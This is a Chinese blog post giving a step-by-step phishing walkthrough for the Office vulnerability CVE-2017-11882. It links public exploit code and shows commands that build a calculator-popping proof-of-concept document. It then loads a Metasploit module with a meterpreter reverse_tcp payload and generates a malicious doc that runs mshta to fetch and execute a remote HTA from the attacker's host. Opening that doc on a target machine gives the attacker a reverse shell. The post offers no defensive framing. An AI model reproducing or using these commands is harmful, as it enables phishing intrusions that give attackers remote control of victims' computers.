

# 钓鱼攻击之：OFFICE CVE-2017-11882 - f_carey - 博客园

> 原文：[`www.cnblogs.com/f-carey/p/16646278.html`](https://www.cnblogs.com/f-carey/p/16646278.html)

# 钓鱼攻击之：OFFICE CVE-2017-11882

目录

*   钓鱼攻击之：OFFICE CVE-2017-11882
    *   1 环境准备
    *   2 利用过程
        *   2.1 生成验证 POC
        *   2.2 CVE-2017-11882 利用漏洞

## 1 环境准备

1.  EXP 地址：[GitHub - Ridter/CVE-2017-11882: CVE-2017-11882 from https://github.com/embedi/CVE-2017-11882](https://github.com/Ridter/CVE-2017-11882)
2.  MSF 利用 EXP 地址：[GitHub - 0x09AL/CVE-2017-11882-metasploit: This is a Metasploit module which exploits CVE-2017-11882 using the POC released here : https://embedi.com/blog/skeleton-closet-ms-office-vulnerability-you-didnt-know-about.](https://github.com/0x09AL/CVE-2017-11882-metasploit)
3.  影响范围：Office 2003 到 2016 的所有版本
4.  酝实验环境：office 为 2013 版本

## 2 利用过程

### 2.1 生成验证 POC

1.  生成验证测试文件：

    ```
    # python2 Command109b_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
    [*] Done ! output file --> test.doc 
    ```

2.  在生成的`test.doc`上传到目标主机并打开，确认是否弹出计算器

    

### 2.2 CVE-2017-11882 利用漏洞

1.  通过 `CVE-2017-11882-metasploit` 生成恶意 HTA 文件

    ```
    # 将 CVE-2017-11882-metasploit 文件夹中的文件复制到以下目录
    cp cve_2017_11882.rb /usr/share/metasploit-framework/modules/exploits/windows/local
    cp cve-2017-11882.rtf /usr/share/metasploit-framework/data/exploits

    # 打开 MSF ， 重新加载模块
    msfconsole -q
    reload_all

    # 确认 cve_2017_11882 模块被正确加载
    search cve_2017_11882
    msf6 中 exploit/windows/fileformat/office_ms17_11882 模块无法正常反弹 shell
    导入的 exploit/windows/local/cve_2017_11882 模块可以正常反弹 shell

    # 使用用 cve_2017_11882 模块
    exploit/windows/local/cve_2017_11882
    set payload windows/meterpreter/reverse_tcp
    set uripath pl.hta
    set lhost 192.168.10.119
    set lport 4444
    run -j 
    ```

2.  生成恶意 doc 文件

    ```
    python2 Command43b_CVE-2017-11882.py -c "mshta http://192.168.10.119:8080/pl.hta" -o rshell.doc
    [*] Done ! output file --> rshell.doc 
    ```

3.  将恶意 doc 文件上传到目标服务器并打开，成功上线：

    